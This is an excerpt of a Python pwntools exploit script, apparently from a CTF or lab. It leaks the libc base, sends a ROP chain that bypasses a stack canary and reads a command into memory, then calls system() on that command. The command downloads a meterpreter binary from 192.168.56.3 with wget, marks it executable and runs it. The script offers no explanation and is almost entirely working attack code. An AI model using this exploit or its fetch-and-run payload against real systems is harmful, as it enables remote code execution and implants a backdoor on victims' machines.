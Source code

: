 ```
libc_base = leak - offset_read
log.info("libc base: {:#08x}".format(libc_base))

addr_system = libc_base + offset_system
log.info("system: {:#08x}".format(addr_system))

if local:
    gdb_cmd = []
    gdb_cmd.append("set follow-fork-mode child")
    #  gdb_cmd.append("b *{:#08x}".format(offset_syscall))
    #  gdb_cmd.append("b *{:#08x}".format(pop_rsi_pop_r15_ret))
    gdb_cmd.append("b *{:#08x}".format(pop_rdi_ret))
    #  gdb_cmd.append("b *{:#08x}".format(addr_system))
    gdb_cmd.append("c")
    gdb_cmd = "\n".join(gdb_cmd)
    #  gdb.attach(p_main, gdb_cmd)

with context.quiet:
    p = remote("127.0.0.1", 7979)
temp = p.recvuntil("User to query: ")
m = re.search(r"Socket fd: ([0-9]+)", temp)
fd = int(m.group(1))
log.info("fd: {}".format(fd))

free_space = 0x6012c0 # .dynamic
command = "/bin/sh -c \"/usr/bin/rm -f /tmp/meterpreter; /usr/bin/wget -O /tmp/meterpreter http://192.168.56.3/meterpreter ; chmod +x /tmp/meterpreter; /tmp/meterpreter\"\x00";

payload  = ""
payload += user
payload += stack_canary
payload += p64(dummy)
payload += p64(pop_rdi_ret)
payload += p64(dummy)
# read via libc
# sys_read:
#   rax: 0
#   rdi: fd
#   rsi: *buf
#   rdx: count
payload += p64(libc_base + offset_xor_rax_rax)
payload += p64(pop_rdi_ret)
payload += p64(fd)
payload += p64(pop_rsi_pop_r15_ret)
payload += p64(free_space)
payload += p64(dummy)
payload += p64(libc_base + offset_pop_rdx)

payload += p64(len(command))
payload += p64(libc_base + offset_syscall)

payload += p64(pop_rdi_ret)
payload += p64(free_space)
payload += p64(addr_system)

p.send(payload)
p.recvuntil("Checking...\n")
sleep(1)
p.send(command)
p.recv()
with context.quiet:
    p.close()

```